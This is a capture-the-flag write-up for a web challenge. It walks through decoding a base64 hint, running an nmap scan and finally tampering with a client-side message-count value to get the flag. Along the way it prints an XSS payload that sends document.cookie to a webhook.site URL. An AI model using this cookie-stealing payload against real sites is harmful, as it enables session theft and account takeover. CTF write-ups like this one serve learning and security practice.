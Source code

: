 ```yaml
---
title: heartbleed
description: web
---
```


# Heartbleed

Note: You may run these commands on one or two VMs.

if we open `<target>`.js, we get the following:

function callme() {
  console.log("UmVtZW1iZXIsIGEgc2VydmVyIHNob3VsZCBuZXZlciBibGluZGx5IHRydXN0IGNsaWVudHMnIGlucHV0IC0gZXZlbiBpZiB0aGUgaW5wdXQgaXMgZ2VuZXJhdGVkIGJ5IGEgc2NyaXB0Lg==");
}

document.getElementById('message').onkeyup = function () {
  message_count = this.value.length;
  document.getElementById("message_count").value = message_count;
  document.getElementById('count').innerHTML = message_count;
};

from base64 we get:
Remember, a server should never blindly trust clients' input - even if the input is generated by a script.

this neans we should find a backend and try to send it inputs.

Also we get a xss to show up using 

```
<script>alert(1)</script>
```

```
<script>
  var img = new Image();
  img.src = 'https://webhook.site/<url>?cookie=' + document.cookie;
</script>
```

and we get a get request.

However no luck from this as it is not a flag.

 nmap -sV -sC `<target>`.com

Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
443/tcp  open  ssl/http Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
| ssl-cert: Subject: commonName=`<target>`.com
| Subject Alternative Name: DNS:`<target>`.com, DNS:*.`<target>`.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
8080/tcp open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
8443/tcp open  ssl/http Cloudflare http proxy
| ssl-cert: Subject: commonName=`<target>`.com
| Subject Alternative Name: DNS:`<target>`.com, DNS:*.`<target>`.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
|_http-server-header: cloudflare
|_http-title: Site doesn't have a title (text/plain; charset=UTF-8).

And it is behind a cloudflare, which I will not try to test.

None of these worked, but then I noticed there was a message count. I tried to change this value to something else and see what would happen. 

![alt text](/images/heartbleed/image-1.png)
![alt text](/images/heartbleed/image-2.png)

I found the flag by changing the value of this message count. 

